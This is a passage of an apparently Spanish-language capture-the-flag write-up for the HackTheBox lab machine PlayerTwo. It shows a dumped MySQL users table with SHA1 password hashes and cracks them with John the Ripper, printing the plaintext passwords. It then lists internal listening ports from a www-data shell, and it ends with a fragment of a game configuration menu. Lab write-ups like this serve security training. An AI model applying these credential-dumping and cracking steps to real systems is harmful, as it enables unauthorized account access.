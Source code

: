 
Están almacenados los hashes de las credenciales que ya tenía

```null
mysql> use dev;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
mysql> select * from users;
+----------+------------------------------------------+----------------+
| username | password                                 | code           |
+----------+------------------------------------------+----------------+
| jkr      | BBA66FBF4F02845CBABEF2A02A24CA295D130549 | 29389234823423 |
| snowscan | 0A64DFE14E66C4689D06D4CDD39A76542C144895 | 84573484857384 |
| 0xdf     | 9E414AF802E6109C4A20A3730718CC8B1DB5B61E | 91231238385454 |
| mprox    | A0B7EFD74F41B2D74ED97C151A9F1C47EAE4F266 | 87685768223422 |
+----------+------------------------------------------+----------------+
```

Para demostrarlo, las crackeo con el diccionario de contraseñas

```null
john -w:/home/rubbx/Desktop/HTB/Machines/PlayerTwo/passwords hashes --format=Raw-SHA1-AxCrypt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA1-AxCrypt [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 4 candidates left, minimum 8 needed for performance.
Lp-+Q8umLW5*7qkc (?)     
tR@dQnwnZEk95*6# (?)     
XHq7_WJTA?QD_?E2 (?)     
ze+EKe-SGF^5uZQX (?)     
4g 0:00:00:00 DONE (2023-06-14 17:59) 400.0g/s 400.0p/s 400.0c/s 1600C/s Lp-+Q8umLW5*7qkc..ze+EKe-SGF^5uZQX
Use the "--show --format=Raw-SHA1-AxCrypt" options to display all of the cracked passwords reliably
Session completed. 
```

Listo los puertos abiertos internamente

```null
www-data@playertwo:/$ ss -nltp
State                      Recv-Q                      Send-Q                                              Local Address:Port                                             Peer Address:Port                      
LISTEN                     0                           128                                                       0.0.0.0:8545                                                  0.0.0.0:*                         
LISTEN                     0                           80                                                      127.0.0.1:3306                                                  0.0.0.0:*                         
LISTEN                     0                           128                                                 127.0.0.53%lo:53                                                    0.0.0.0:*                         
LISTEN                     0                           128                                                       0.0.0.0:22                                                    0.0.0.0:*                         
LISTEN                     0                           100                                                     127.0.0.1:1883                                                  0.0.0.0:*                         
LISTEN                     0                           128                                                             *:80                                                          *:*                         
LISTEN                     0                           128                                                          [::]:22                                                       [::]:*              
```


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test